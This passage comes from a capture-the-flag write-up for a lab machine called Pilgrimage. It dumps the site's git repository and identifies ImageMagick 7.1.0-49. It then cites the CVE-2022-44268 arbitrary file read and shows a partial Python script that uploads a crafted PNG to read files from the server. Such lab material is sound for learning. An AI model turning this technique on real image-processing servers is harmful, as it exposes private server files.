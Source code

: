 ```bash

/dashboard.php
/logout.php

```
next we download the git repo with git-dumper:

![](pics/git.png)

the git repo is the sourcecode for the site hosted on port 80. After some inspection, we conclude that the website loads a user provided image,
uses `magick` to shrink the image, and provides a generated url to download the shrunk image.

```bash
└─$ ./magick -version                           
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)

```

there is an Arbitrary File Read CVE for this version of magic
```bash
# Exploit Title: ImageMagick  7.1.0-49 - Arbitrary File Read
# Google Dork: N/A
# Date: 06/02/2023
# Exploit Author: Cristian 'void' Giustini
# Vendor Homepage: https://imagemagick.org/
# Software Link: https://imagemagick.org/
# Version: <= 7.1.0-49
# Tested on: 7.1.0-49 and 6.9.11-60
# CVE : CVE-2022-44268 (CVE Owner: Metabase Q Team
https://www.metabaseq.com/imagemagick-zero-days/)
# Exploit pre-requirements: Rust


# PoC : https://github.com/voidz0r/CVE-2022-44268
```
the PoC is quite tedious, so i write a script `exploit.py` to automate the process. here is the gist. view `exploit.py` for full detail:
```python
local_file = sys.argv[1] #the file to read on the server
target_url = 'http://pilgrimage.htb/'

#generate the payload and save as exploit.png
gen(local_file, "exploit.png")

'''
upload exploit.png to the server
download_url is the url for the file containing the converted image
and if our exploit worked, the contents of local_file on the server.
'''
download_url = upload_image("exploit.png", target_url)

#download the image
download_image(download_url, "out.png")

#get the file_contents of local_file
```